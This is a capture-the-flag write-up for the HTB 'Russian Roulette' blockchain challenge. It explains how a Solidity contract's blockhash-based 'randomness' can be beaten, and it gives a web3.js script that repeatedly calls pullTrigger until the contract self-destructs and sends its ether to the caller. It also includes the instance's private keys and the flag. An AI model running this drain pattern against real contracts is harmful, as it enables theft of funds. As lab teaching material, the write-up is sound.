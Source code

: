 # HTB Cyber Apocalypse 2024: Hacker Royale - Russian Roulette

## Challenge

> Welcome to The Fray. This is a warm-up to test if you have what it takes to tackle the challenges of the realm. Are you brave enough?

## Metadata

- Difficulty: very easy
- Creator: `perrythepwner`
- Files: [`Setup.sol`](files/Setup.sol), [`RussianRoulette.sol`](files/RussianRoulette.sol)
- Docker: yes
- Tags: `blockchain`, `smart contracts`
- Points: `300`
- Number of solvers: 

## Solution

We get two smart contract implementations in Solidity: [`Setup.sol`](files/Setup.sol) and [`RussianRoulette.sol`](files/RussianRoulette.sol).

Let's start to analyze `Setup.sol` first:

```solidity
pragma solidity 0.8.23;

import {RussianRoulette} from "./RussianRoulette.sol";

contract Setup {
    RussianRoulette public immutable TARGET;

    constructor() payable {
        TARGET = new RussianRoulette{value: 10 ether}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}

```

The contract is pretty simple, it is a typical `Setup.sol` for a smart contract challenge. In the constructor, it initializes a `RussianRoulette` contract eith `10 ether` and the `isSolved` function check whether the `RussianRoulette` contract has `0 ether`.

Now let's analyze the `RussianRoulette.sol` file:

```solidity
pragma solidity 0.8.23;

contract RussianRoulette {

    constructor() payable {
        // i need more bullets
    }

    function pullTrigger() public returns (string memory) {
        if (uint256(blockhash(block.number - 1)) % 10 == 7) {
            selfdestruct(payable(msg.sender)); // 💀
        } else {
		return "im SAFU ... for now";
	    }
    }
}
```

The `pullTrigger` function check whether the hash of the previous block modulo 10 is 7. If not, it returns a string, if yes, it destroys the contract and sends all `ether` in the contract to the caller.

### The vulnerability

Eventually if we call `pullTrigger` a few times, we create new block and out of 10 block statistically form one of them the `if` condition will be true.

### The solution

I've created a [`solve.js`](files/solve.js) which calls the `pullTrigger` function until the challenge is solved. Also compiled the contracts to get the ABI JSON files ([`RussianRoulette_sol_RussianRoulette.json`](files/RussianRoulette_sol_RussianRoulette.json), [`Setup_sol_Setup.json`](files/Setup_sol_Setup.json)):

```bash
$ sudo apt install nodejs
$ sudo apt install npm
$ sudo npm i -g web3
$ sudo npm i -g sol
$ sudo npm i -g solc@0.8.23
$ export NODE_PATH=$(npm root --quiet -g)
$ npx solcjs Setup.sol --bin --abi
```

```javascript
const Web3 = require('web3');

const web3 = new Web3.Web3(new Web3.Web3.providers.HttpProvider('http://94.237.59.119:56217'));

const privateKey = '0xfeabee495252e1d68de99edee0e78a0a1c4be31f258fd71ae4d93a3392e8c0a1'
const signer = web3.eth.accounts.privateKeyToAccount(privateKey);
const Setup_deployedAddress = '0x6C093c4dD4aA6F0bb532CC47cf6216eb3F57e580';
const RussianRoulett_deployedAddress = '0xa3609eE8ebaEeA37BdC09915fb17dE3379409c2C';

const Setup_abi = require('./contracts/Setup_sol_Setup.json');
const SetupContract = new web3.eth.Contract(Setup_abi, Setup_deployedAddress);
const RussianRoulette_abi = require('./contracts/RussianRoulette_sol_RussianRoulette.json');
const RussianRoulettContract = new web3.eth.Contract(RussianRoulette_abi, RussianRoulett_deployedAddress);

async function callIsSolved() {
  return SetupContract.methods.isSolved().call();
}

async function callPullTrigger() {
  await RussianRoulettContract.methods.pullTrigger().send({
      from: signer.address,
      gas: 1000000,
    }).then(
    value => console.log('pullTrigger called')
  ).catch(error => console.error('Error calling pullTrigger: ', error));
}

async function exploit() {
  var solved = await callIsSolved()
  console.log(`Solved: `, solved)
  while (solved == false){
    await callPullTrigger()
    solved = await callIsSolved()
    console.log(`Solved: `, solved)
  }
}

exploit()
```

```
$ node solve.js
Solved: false
pullTrigger called
Solved: false
pullTrigger called
Solved: false
pullTrigger called
Solved: false
pullTrigger called
Solved: true
```

Now let's try to get the flag from the other port:

```
$ nc 94.237.59.119 41926
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xbcbd57858f1e0604060bc2e6e4075589c95cbfdf3c8f05dac5963ff129393f37
Address         :  0x2e0C1FD6033b0D3d6ef69c3F1776c51bcD0d9715
Target contract :  0xC6F79C7Daf5943FC196C7d41f1A8F6802Db93D49
Setup contract  :  0x4e1CA36DbC9a3a5C46B32D664111CB87253b6582

$ nc 94.237.59.119 41926
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 3
HTB{99%_0f_g4mbl3rs_quit_b4_bigwin}
```

Flag: `HTB{99%_0f_g4mbl3rs_quit_b4_bigwin}`

Some notes from the offical write-up:
- I've leant that for these kind of challenges it is much easire to use [`Foundry`](https://book.getfoundry.sh/).
> It's worth noting that starting from the Solidity 0.8.24, known as "Cancun" the behavior of `selfdestruct` is going to change. Following this upgrade, invoking `selfdestruct` will no longer clear the contract code unless it's executed during the contract deployment transaction. [reference](https://eips.ethereum.org/EIPS/eip-6780)
